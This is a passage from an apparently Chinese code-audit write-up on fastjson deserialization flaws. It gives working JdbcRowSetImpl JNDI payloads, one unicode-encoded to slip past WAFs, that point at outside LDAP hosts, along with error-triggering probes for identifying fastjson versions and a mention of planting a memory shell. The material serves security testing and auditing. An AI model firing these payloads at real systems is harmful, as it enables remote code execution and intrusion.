 代码审计确认存在sql注入。

fastjson反序列化
------------

fastjson &lt;=1.2.68存在反序列化，则单纯的从版本上来看，本套代码中的版本是1.2.36，存在反序列化的风险查找是否使用了反序列化的两个方法：  
JSON.parse (String text)  
JSON.parseObject(String text)  
通过全局搜索，后端不存在JSON.parse方法的调用，因此这里不存在反序列化，但是存在反序列化的风险，因此依旧建议升级fastjson

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-26caf12514f93875cf9c031fe95c068cba9b23ad.png)

### 判断漏洞是否存在，常见几种方法：

**jndi请求延迟**

首先看这个payload，适用于1.2.47之前版本的fastjson，这里面有一个小技巧，访问一个不常见的外网IP地址，会延迟几秒，访问一个内网地址127.0.0.1 会瞬间返回，那么证明这个POC可用，也间接证明fastjson版本是1.2.47之前的版本。那么在不出网的情况下，可以借助这个POC的延迟效果，知道目标fastjson是&lt;=1.2.47的，进而可以花时间和精力去构造POC实现回显，或者直接打一个内存马。

以下是一个经过unicode编码的payload，一定程度上可以绕过一些waf

```php
{"name":{"\\u0040\\u0074\\u0079\\u0070\\u0065":"\\u006a\\u0061\\u0076\\u0061\\u002e\\u006c\\u0061\\u006e\\u0067\\u002e\\u0043\\u006c\\u0061\\u0073\\u0073","\\u0076\\u0061\\u006c":"\\u0063\\u006f\\u006d\\u002e\\u0073\\u0075\\u006e\\u002e\\u0072\\u006f\\u0077\\u0073\\u0065\\u0074\\u002e\\u004a\\u0064\\u0062\\u0063\\u0052\\u006f\\u0077\\u0053\\u0065\\u0074\\u0049\\u006d\\u0070\\u006c"},"x":{"\\u0040\\u0074\\u0079\\u0070\\u0065":"\\u0063\\u006f\\u006d\\u002e\\u0073\\u0075\\u006e\\u002e\\u0072\\u006f\\u0077\\u0073\\u0065\\u0074\\u002e\\u004a\\u0064\\u0062\\u0063\\u0052\\u006f\\u0077\\u0053\\u0065\\u0074\\u0049\\u006d\\u0070\\u006c","\\u0064\\u0061\\u0074\\u0061\\u0053\\u006f\\u0075\\u0072\\u0063\\u0065\\u004e\\u0061\\u006d\\u0065":"ldap://ip/test111","autoCommit":true}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-567ab7501a6a49cb951db1e6b312e31433d3edf1.png)  
以下这个POC延迟，证明fastjson版本号**1.1.16&lt;=version&lt;=1.2.24**

{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://137.30.0.1:9999/POC","autoCommit":true}}

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-c9854cc4196be650d4e65bde6d4ef6f22174928d.png)

#### 显错判断

这个方法在正常中应有很多，两个POC如下，提交一下两个POC，会抛出异常，有时候会显示出fastjson版本号来。

1\. {"@type": "java.lang.AutoCloseable"  
2\. \["test":1\]   
3\. 输入一些乱码字符，让web应用报错，有时候也会带出来版本号。  
我正常用第三种方法居多

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-1f688d95b1cb2b8ef05659b87da5470238d1a6c0.png)

**DNS请求判断**

搭建不同的fastjson漏洞环境，发现网上很多文章对于各种fastjson漏洞dnslog payload与fastjson版本号的对应描述都不准确，很多还是有错误的。这里我发出自己校勘的结果，不一定准确，仅供大家参考。
